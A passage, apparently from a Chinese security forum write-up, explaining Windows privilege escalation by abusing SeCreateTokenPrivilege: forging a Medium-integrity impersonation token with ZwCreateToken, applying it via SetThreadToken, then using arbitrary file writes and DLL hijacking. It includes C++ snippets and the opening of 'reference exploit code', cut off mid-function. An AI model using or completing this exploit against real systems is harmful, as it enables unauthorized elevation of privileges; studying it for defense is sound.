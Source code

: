 最后的更改是确保我们正在构建 TokenImpersonation 模拟级别的令牌，这可以在令牌的对象属性中设置：

```c++
SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService),
                                                         SecurityImpersonation, 
                                                         SECURITY_STATIC_TRACKING, FALSE };
OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
```

目前只剩下最后一个难题，就是我们将如何使用生成的模拟令牌，因为我们假设我们只拥有 SeCreateTokenPrivilege 特权，没有其他与模拟相关的特权（例如 SeImpersonatePrivilege）。我们回顾 Windows 有关令牌模拟的相关规则：

> - IF the token level &lt; Impersonate THEN allow (such tokens are called “Identification” level and can not be used for privileged actions).
> - IF the process has “Impersonate” privilege THEN allow.
> - IF the process integrity level &gt;= the token integrity level AND the process user == token user THEN allow ELSE restrict the token to “Identification” level (no privileged actions possible).

我们关注最后一条规则 “*IF the process integrity level &gt;= the token integrity level AND the process user == token user THEN allow ELSE restrict the token to “Identification” level (no privileged actions possible)*”，也就是说，只要令牌是给我们当前用户的，并且完整性级别小于或等于当前进程完整性级别，我们就应该能够在没有任何特殊权限的情况下模拟令牌。令牌的完整性级别可以在构造令牌时设置。我们只需将完整性级别设置为 “Medium”，然后调用 `SetThreadToken()` 函数将当前线程的令牌替换为新令牌即可。

如下图所示，本地用户 John 拥有 SeCreateTokenPrivilege 特权。

![image-20230706124651014](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-145ae69b2b46b0cb178d4ae5936e44a80d31b20c.png)

我们可以通过 `ZwCreateToken()` 函数创建一个提升权限的模拟令牌，使用该令牌创建线程实现任意文件写入，最终通过 DLL 劫持等方法实现提权。下面给出可供参考的利用代码。

Implemented By C/C++
--------------------

### Main Fcuntion

主函数首先从命令行获取 `-s` 和 `-d` 两个参数，分别对应后续文件写入的源文件和目的文件，然后通过 `GetCurrentProcess()` 和 `OpenProcessToken()` 函数打开当前进程的句柄，如下所示。

```c++
int wmain(int argc, wchar_t* argv[])
{
    HANDLE hToken = NULL;
    HANDLE pElevatedToken = NULL;
    HANDLE hThread = NULL;
    LPCWSTR sourceFile = NULL;
    LPCWSTR destFile = NULL;

    while ((argc > 1) && (argv[1][0] == '-'))
    {
        switch (argv[1][1])
        {
        case 's':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                sourceFile = (LPCWSTR)argv[1];
            }
            break;
        case 'd':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                destFile = (LPCWSTR)argv[1];
            }
            break;
        default:
```